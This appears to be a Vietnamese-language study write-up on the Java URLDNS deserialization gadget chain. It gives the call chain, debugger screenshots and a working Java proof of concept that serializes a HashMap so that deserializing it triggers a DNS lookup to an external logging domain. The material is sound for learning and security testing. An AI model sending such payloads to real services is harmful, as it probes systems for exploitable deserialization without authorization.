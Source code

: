 ## Cách hoạt động của chain.
```js
  HashMap.readObject()
    HashMap.hash()
      URL.hashCode()
        URLStreamHandler.hashCode()
          URLStreamHandler.getHostAddress()
            InetAddress.getByName()
```
- Gadget tồn tại trong rt.jar của java với mục đích là tạo dns lookup tới domain tuỳ ý. 
- Đặt breakpoint tại HashMap.readObject()
![Screenshot 2022-12-22 094522](https://i.imgur.com/xeJkpEQ.png)
- Vào chức năng debug
- Hàm main phân tích
```java
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.net.URL;

public class Main implements Serializable {

    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        HashMap<URL, String> hashMap = new HashMap<URL, String>();
        
        URL url= new URL("http://nx3344.dnslog.cn"); //dnslog
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, -1 );
        hashMap.put(url, "time");

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("url.bin"));
        oos.writeObject(hashMap);

        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("url.bin"));
        ois.readObject();
    }
}
```

![Screenshot 2022-12-22 095021](https://i.imgur.com/5GyYYoW.png)
- Vào hàm hash() thì gọi tới hashCode()
![Screenshot 2022-12-22 095226](https://i.imgur.com/RSELUWD.png)
- Do để gọi tới URLStreamHandler.hashCode() cần set cho hashCode của URL = -1
![Screenshot 2022-12-22 095335](https://i.imgur.com/PfhejQ3.png)
- Tiếp tục vào trong URLStreamHandler.hashCode() 
![Screenshot 2022-12-22 095643](https://i.imgur.com/fFrVZr2.png)
- Method này gọi tới URLStreamHandler.getHostAddress() với URL object ban đầu.
- Với InetAddress.getByName() chính là method thực hiện resolve dns với domain ta truyền vào.

- Đây cũng được chính là sink của gadgetchain này.

![Screenshot 2022-12-22 095925](https://i.imgur.com/UDAPp6u.png)

# Reference
- https://sec.vnpt.vn/2020/02/co-gi-ben-trong-cac-gadgetchain/
- https://www.geeksforgeeks.org/reflection-in-java/?fbclid=IwAR101djrM59HEpJbVDddgTXPYmrCVQMQACFiRFUVsy8ANijS7DopIRqYfv8